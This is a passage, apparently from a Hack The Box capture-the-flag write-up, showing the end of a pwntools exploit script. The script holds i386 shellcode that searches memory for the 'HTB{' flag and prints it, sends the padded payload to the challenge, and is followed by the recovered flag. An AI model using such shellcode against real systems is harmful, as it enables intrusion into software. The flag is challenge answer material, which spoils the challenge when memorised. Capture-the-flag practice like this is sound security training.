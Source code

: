 ```python 
        jne next_page

        mov al, [edi+2]
        cmp al, 'B'
        jne next_page

        mov al, [edi+3]
        cmp al, '{'
        jne next_page

        mov eax, 4
        mov ebx, 1
        mov ecx, edi
        mov edx, 0x100
        int 0x80
    ''', arch = 'i386')

p.send(shellcode1.ljust(0x3c, b'P') + b'A'*0xe + shellcode2)
p.interactive()

# HTB{H0w_0n_34rth_d1d_y0u_f1nd_m3?!?}
``` 

## Flag 

HTB{H0w_0n_34rth_d1d_y0u_f1nd_m3?!?}
